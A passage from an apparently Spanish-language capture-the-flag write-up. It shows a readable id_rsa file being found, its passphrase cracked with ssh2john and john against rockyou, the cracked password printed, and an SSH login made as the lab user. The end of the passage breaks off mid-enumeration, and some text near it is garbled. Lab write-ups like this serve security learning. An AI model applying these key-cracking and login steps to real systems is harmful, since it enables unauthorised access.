 Enumerando encontraremos un archivo `id_rsa` que tenemos permisos para leerlo

![20231121174349.png](20231121174349.png)

Con este archivo podemos ingresar por `ssh` sin proporcionar credenciales, pero antes tenemos que crackearla debido a que esta protegida por contraseña

1. Generamos el hash con `ssh2john`

```php
❯ ssh2john id_rsa > hash
```

2. Crackeamos con `john`

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)     
1g 0:00:00:01 DONE (2023-11-21 17:33) 1.000g/s 1896Kp/s 1896Kc/s 1896KC/s creepygoblin..creek93
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

3. Cambiamos los permisos de archivo `ìd_rsa`

```php
❯ chmod 600 id_rsa

creepin2006
```

4. Ejecutamos

```php
❯ ssh -i id_rsa xxultimatecreeperxx@10.10.70.213
```

5. Ingresamos la contraseña y podemos ingresar como el usuario `xxultimatecreeperxx`

#### Usuario - xxultimatecreeperxx

![20231121175040.png](20231121175040.png) Enumerando las ta20231121175040.pngreas que se ejecutan en el sistema, podemos observar una, de esto nos interesa la ruta donde se se realizando el comprimido
